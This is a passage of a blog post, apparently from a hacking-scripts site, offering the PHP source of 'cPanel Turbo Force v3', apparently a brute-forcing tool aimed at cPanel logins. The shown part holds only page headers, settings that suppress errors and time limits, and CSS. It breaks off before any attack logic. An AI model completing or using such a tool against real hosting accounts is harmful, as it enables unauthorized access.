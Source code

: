 ```yaml
---
id: 231
title: cPanel Turbo Force v3
author: admin
layout: post
guid: http://hackingscripts.com/?p=231
permalink: /cpanel-turbo-force-v3/
categories:
  - PHP
tags:
  - PHP. cpanel
---
```

cPanel Turbo Force v3 &#8211; Coded By SaQEeR aL jNoOoB

## cPanel Turbo Force v3 Source Code

<pre class="brush: php; title: ; notranslate" title="">&lt;html&gt;

&lt;head&gt;
&lt;title&gt;cPanel Turbo Force v3&lt;/title&gt;
&lt;meta http-equiv="Content-Type" content="text/html; charset=utf-8" /&gt;
&lt;?php
/*
Turbo Force V3 By SaQEeR aL jNoOoB
*/
@set_time_limit(0);
@error_reporting(0);


echo '&lt;head&gt;

&lt;style type="text/css"&gt;
&lt;!--
body {
	background-color: #000000;
    font-size: 18px;
	color: #cccccc;
}
input,textarea,select{
font-weight: bold;
color: #cccccc;
dashed #ffffff;
border: 1px
solid #2C2C2C;
background-color: #080808
}
a {
	background-color: #151515;
	vertical-align: bottom;
	color: #000;
	text-decoration: none;
	font-size: 20px;
	margin: 8px;
	padding: 6px;
	border: thin solid #000;
}
a:hover {
	background-color: #080808;
	vertical-align: bottom;
	color: #333;
	text-decoration: none;
	font-size: 20px;
	margin: 8px;
